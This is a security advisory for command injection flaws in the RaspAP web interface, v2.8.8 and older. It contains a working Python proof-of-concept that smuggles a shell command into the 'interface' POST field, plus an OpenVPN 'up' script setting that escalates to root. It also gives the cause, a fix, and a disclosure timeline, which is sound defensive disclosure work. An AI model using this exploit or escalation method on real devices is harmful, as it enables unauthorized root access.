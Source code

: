 ```yaml
---
pagetitle: Security advisory

...
```


## Security advisory
Multiple command injection vulnerabilities are present in the RaspAP web interface. They allow an authenticated user to execute arbitrary OS commands with the privileges of the web server.

### Affected products

RaspAP v2.8.8 and older


### Steps to reproduce

1. Obtain credentials for RaspAP
2. Configure and execute the following script

```python
#!/usr/bin/env python3

import re
import requests

TARGET="10.3.141.1"
CREDS="admin:secret"
URL=f"http://{CREDS}@{TARGET}/hostapd_conf"

sess = requests.Session()

# Get a valid CSRF token
doc = sess.get(URL).text.replace("\n", "")
csrf = re.match('.*name="csrf_token" value="([^"]+)".*', doc).group(1)

print(csrf)

res = sess.post(URL,
                data={
                   "csrf_token": csrf,
                   "txpower": "auto",

                   # Command payload is here:
                   "interface": ";uptime > /tmp/hax; echo",
                 }
                )

if res.status_code != 200:
  print("Failed to execute command")
```

3. Observe that the file `/tmp/hax` has been created on the raspi, and contains the output of `uptime`.

### Cause
There are two almost identical instances of the vulnerability, at [hostapd.php:103](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L103) and [hostapd.php:108](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L108). In both instances, an unsanitized POST variable is fed into a command executed using `exec()`.

A third instance exists at [configure_client.php:20](https://github.com/RaspAP/raspap-webgui/blob/592bce02bfee1169ca92e5e93ebded66bac42c6e/includes/configure_client.php#L20), exploitable in a similar manner.

### Impact

An authenticated user is able to execute arbitrary commands as `www-data`.

In the default RaspAP configuration, this can be leveraged to gain root access by exploiting two of the configured `sudo` permissions; overwrite the openvpn client configuration to set the following:

```
script-security 2
up /tmp/payload.sh
```

and establish an OpenVPN connection. `/tmp/payload.sh` will be executed with root privileges.

### Proposed Mitigation
Apply sanitization to the `txpower` and `interface` parameters, and use the PHP built-in `escapeshellarg()` before passing them to `exec()`.


### History
- 2023-03-29: Additional vulnerability added
- 2023-03-29: Initial report removed
- 2023-03-29: [Fix](https://github.com/RaspAP/raspap-webgui/pull/1322) applied and released as v2.8.9
- 2023-03-28: Initial report filed
